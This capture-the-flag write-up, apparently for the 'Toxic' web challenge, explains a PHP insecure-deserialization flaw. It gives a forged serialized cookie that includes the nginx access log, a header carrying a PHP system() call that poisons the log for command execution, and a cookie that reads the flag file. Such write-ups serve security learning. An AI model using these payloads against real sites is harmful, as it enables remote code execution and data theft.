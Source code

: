 # Toxic
![Screenshot from 2021-08-15 20-36-15](https://user-images.githubusercontent.com/87865134/129480430-63e05a73-ad28-4517-a217-82cf94af8ae0.png)

## - Download source code and analysis
- `PageModel` include file when it destruct:
```php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```
- web use `cookie` to save **serialize** of object PageModel and **unserialize** using **cookie**
```php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```
 > it is Insecure deserialization vulnerability

## - Exploit
1. **Use Burpsuite intercept request and repeat it with modified cookie**
  - modify cookie:
  ```php
  O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
  ```
  - modify User-Agent header: 
  ```
    Host: <?php system('ls /') ?>
  ```
  - send request and view list files in directory:
  ![Screenshot from 2021-08-15 20-56-08](https://user-images.githubusercontent.com/87865134/129480931-3dbac12a-d6ef-4beb-9798-37c5ea6b5b56.png)
  > found file flag `flag_Eyo06`
  
2. **Read file to get flag**
- Modify cookie to read file `flag_Eyo06`
```php
O:9:"PageModel":1:{s:4:"file";s:11:"/flag_Eyo06";}
```
![Screenshot from 2021-08-15 20-59-15](https://user-images.githubusercontent.com/87865134/129480985-df62edaa-ab61-4f5c-af60-9f16f630186d.png)

## - Description
> **category**: Insecure Deserialization
